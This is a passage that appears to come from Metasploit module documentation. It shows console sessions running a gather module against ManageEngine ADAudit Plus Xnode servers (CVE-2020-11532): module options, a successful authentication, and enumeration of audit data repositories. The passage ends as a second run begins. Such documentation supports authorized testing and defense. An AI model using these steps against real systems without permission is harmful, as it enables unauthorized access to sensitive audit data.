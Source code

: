 ```
   RHOSTS       192.168.1.41                                                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        29118                                                          yes       The target port (TCP)
   USERNAME     atom                                                           yes       Username used to authenticate to the Xnode server

msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > run
[*] Running module against 192.168.1.41

[*] 192.168.1.41:29118 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.1.41:29118 - Target seems to be Xnode.
[+] 192.168.1.41:29118 - The target appears to be vulnerable. Successfully authenticated to the Xnode server.
[*] 192.168.1.41:29118 - Obtained expected Xnode "de_healh" status: "GREEN".
[*] 192.168.1.41:29118 - Target is running Xnode version: "XNODE_1_0_0".
[*] 192.168.1.41:29118 - Obtained Xnode installation path: "C:\Program Files (x86)\ManageEngine\ADAudit Plus\apps\dataengine-xnode".
[*] 192.168.1.41:29118 - Data repository AdapFileAuditLog is empty.
[*] 192.168.1.41:29118 - The data repository AdapPowershellAuditLog is not available on the target.
[*] 192.168.1.41:29118 - The data repository AdapSysMonAuditLog is not available on the target.
[*] 192.168.1.41:29118 - The data repository AdapDNSAuditLog is not available on the target.
[*] 192.168.1.41:29118 - The data repository AdapADReplicationAuditLog is not available on the target.
[*] Auxiliary module execution completed
```

### ManageEngine ADAudit Plus 6.0.7 (6076) running on Windows Server 2019 (custom password)
```
msf6 > use auxiliary/gather/manageengine_adaudit_plus_xnode_enum
msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > set rhosts 192.168.1.25
rhosts => 192.168.1.25
msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > set password custom_password
password => custom_password
msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > options 

Module options (auxiliary/gather/manageengine_adaudit_plus_xnode_enum):

   Name         Current Setting                                                                                                 Required  Description
   ----         ---------------                                                                                                 --------  -----------
   CONFIG_FILE  /root/github/manageengine/metasploit-framework/data/exploits/manageengine_xnode/CVE-2020-11532/adaudit_plus_xn  no        YAML file specifying the data repositories (tables) and fields (columns) to dump
                ode_conf.yaml
   DUMP_ALL     false                                                                                                           no        Dump all data from the available data repositories (tables). If true, CONFIG_FILE will be ignored.
   PASSWORD     custom_password                                                                                                 yes       Password used to authenticate to the Xnode server
   RHOSTS       192.168.1.25                                                                                                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        29118                                                                                                           yes       The target port (TCP)
   USERNAME     atom                                                                                                            yes       Username used to authenticate to the Xnode server

msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) > run

[*] Running module against 192.168.1.25
```